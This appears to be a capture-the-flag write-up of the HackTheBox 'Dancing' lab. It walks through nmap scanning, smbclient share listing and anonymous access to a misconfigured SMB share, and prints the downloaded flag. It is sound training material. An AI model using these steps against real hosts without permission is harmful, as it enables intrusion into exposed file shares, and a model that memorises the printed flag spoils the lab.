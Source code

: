 # HackTheBox Dancing Box
Starting Point
2024-11-08

## Lab Setup

Downloaded OpenVPN file

Connected from Kali using command `openvpn /mnt/C/Users/Jonathan/Downloads/starting_point_jcaruso.ovpn`

VPN is not running as daemon

Opened second terminal and ran `kali`

Pinged 10.129.67.144 to confirm connectivity

`ping 10.129.67.144`

PING 10.129.67.144 (10.129.67.144) 56(84) bytes of data.

64 bytes from 10.129.67.144: icmp_seq=1 ttl=127 time=46.2 ms

64 bytes from 10.129.67.144: icmp_seq=2 ttl=127 time=47.2 ms

64 bytes from 10.129.67.144: icmp_seq=3 ttl=127 time=1371 ms

64 bytes from 10.129.67.144: icmp_seq=4 ttl=127 time=316 ms

64 bytes from 10.129.67.144: icmp_seq=5 ttl=127 time=49.8 ms

64 bytes from 10.129.67.144: icmp_seq=6 ttl=127 time=45.9 ms

64 bytes from 10.129.67.144: icmp_seq=7 ttl=127 time=52.2 ms


--- 10.129.67.144 ping statistics ---

7 packets transmitted, 7 received, 0% packet loss, time 6062ms

rtt min/avg/max/mdev = 45.857/275.378/1370.873/456.647 ms, pipe 2


SMB = Server Message Block
Port 445 TCP
SMB storage = share
Transport layer for Microsoft SMB most often used with is NetBIOS over TCP/IP (NBT) port 139

Usually requires credentials
Can allow login with guest accounts or anonymous accounts if configured insecurely

## Enumeration

### Port scanning with nmap

`sudo nmap -sV 10.129.67.144`

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-08 12:29 EST
Nmap scan report for 10.129.67.144
Host is up (0.051s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds

### Listing shares with smbclient

`smbclient -L 10.129.67.144`
Password for [WORKGROUP\****]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.67.144 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

Trying to connect to ADMIN$ and C$

`smbclient \\\\10.129.67.144\\ADMIN$`
Password for [WORKGROUP\****]:
tree connect failed: NT_STATUS_ACCESS_DENIED

`smbclient \\\\10.129.67.144\\C$`
Password for [WORKGROUP\****]:
tree connect failed: NT_STATUS_ACCESS_DENIED

## Foothold

`smbclient \\\\10.129.67.144\\WorkShares`
Password for [WORKGROUP\****]:
Try "help" to get a list of possible commands.
smb: \>

Successful connection to WorkShares with no password

### Listing directories and files

smb: \> `ls`
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021
  
### Downloading available files

smb: \> `cd Amy.J\`
smb: \Amy.J\> `get worknotes.txt`
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.5 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \Amy.J\> `cd ..`
smb: \> cd James.P\
smb: \James.P\> `dir`
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1733376 blocks available
smb: \James.P\> `get flag.txt`
getting file \James.P\flag.txt of size 32 as flag.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\> `exit`

## Flag Captured!

`cat worknotes.txt`
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing
`cat flag.txt`
5f61c10dffbc77a704d76016a22f1664